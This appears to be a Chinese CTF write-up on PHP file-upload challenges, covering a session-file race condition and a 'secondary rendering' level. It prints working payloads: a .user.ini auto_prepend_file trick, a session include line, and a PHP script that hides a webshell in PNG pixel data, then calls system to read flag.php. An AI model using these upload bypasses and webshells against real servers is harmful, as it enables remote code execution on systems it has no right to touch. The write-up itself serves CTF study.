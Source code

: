 因为session文件名字，前半部分固定，后半部分是sessionid，这部分我们是可以控制的。开启两个线程，一个不断上传文件，另外一个不断访问触发，如果session文件成功被包含后，那么我们就可以访问成功，执行读取flag.php的代码，得到flag。

先上传.user.in文件

```
GIF89a
auto_prepend_file=png
```

再上传png，条件竞争的利用，还需要满足条件，知道对方session文件的目录。

```
GIF89a
<?=include"/tmp/sess_toxicant"?>
```

我这里的利用代码一直没跑出来结果，所以就暂且先放放。

##### 164关：二次渲染

文件二次渲染：当你上传一个图片后，服务器会对图片进行处理，你的后门也就很可能被处理了

解决思路：使用脚本，有人分析了图片处理的规律，使用脚本可以把后门代码写入图片而不被处理

可以利用工具来将木马插入到图片中，工具代码如下，将代码放置到PHP环境中执行即可

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
?>
```

上传成功之后访问图片地址，在后面加入&0=system，1=tac flag.php，这个1=需要用POST方式提交

关于为什么这个图片能被php解析？

查看download.php的源代码
